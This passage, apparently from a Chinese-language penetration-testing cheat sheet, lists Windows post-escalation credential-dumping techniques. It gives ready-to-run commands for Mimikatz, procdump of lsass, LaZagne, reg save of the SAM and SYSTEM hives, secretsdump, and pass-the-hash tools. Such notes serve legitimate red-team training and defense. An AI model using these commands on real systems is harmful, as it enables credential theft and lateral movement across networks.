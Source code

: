 #### 提权后操作：获取管理员密码/哈希 (Post-Escalation: Retrieving Admin Credentials)

获得高权限 (通常是 SYSTEM) 后，下一步是提取凭据以实现持久化和横向移动。

*   **Mimikatz**:
    *   **功能**: 从内存 (`lsass.exe`) 提取明文密码、哈希、票据。
    *   **使用 (需要 SYSTEM/Debug 权限)**:
        ```powershell
        # (在 Mimikatz 控制台)
        privilege::debug
        sekurlsa::logonpasswords
        # 或直接抓取 NTLM 哈希
        lsadump::sam  # 需要先加载 SYSTEM hive 或直接在 SYSTEM 下运行
        ```
    *   **离线提取**: `procdump64.exe -accepteula -ma lsass.exe lsass.dmp` -> 将 `lsass.dmp` 传回 -> 本地 Mimikatz: `sekurlsa::minidump lsass.dmp` -> `sekurlsa::logonpasswords full`。
    *   **限制**: Credential Guard, WDigest 配置可能阻止明文提取，但 NTLM 哈希通常可用。
*   **LaZagne**:
    *   **功能**: 提取多种应用程序存储的密码 (浏览器, WiFi, Git, DB clients 等)。
    *   **使用**: `laZagne.exe all -oN output.txt`。
*   **直接导出 SAM/SYSTEM 文件**:
    *   **原理**: 获取包含本地用户哈希的 SAM 文件和解密密钥所在的 SYSTEM 文件。
    *   **方法 (需要 SYSTEM 权限)**:
        *   `reg save hklm\sam sam.save` & `reg save hklm\system system.save`。
        *   卷影复制 (`vssadmin`, `diskshadow`)。
        *   Metasploit `hashdump` 或 `run post/windows/gather/smart_hashdump`。
    *   **后续**: 传回攻击机，使用 `secretsdump.py -sam sam.save -system system.save LOCAL` 提取哈希，或用 Hashcat/John 破解。
*   **Pass-the-Hash (PtH)**:
    *   **原理**: 使用 NTLM 哈希直接进行认证，无需明文密码。
    *   **工具**: Mimikatz (`sekurlsa::pth`), Metasploit (`psexec` 模块的 `SMBPass` 填哈希), Impacket (`psexec.py -hashes ...`), CrackMapExec。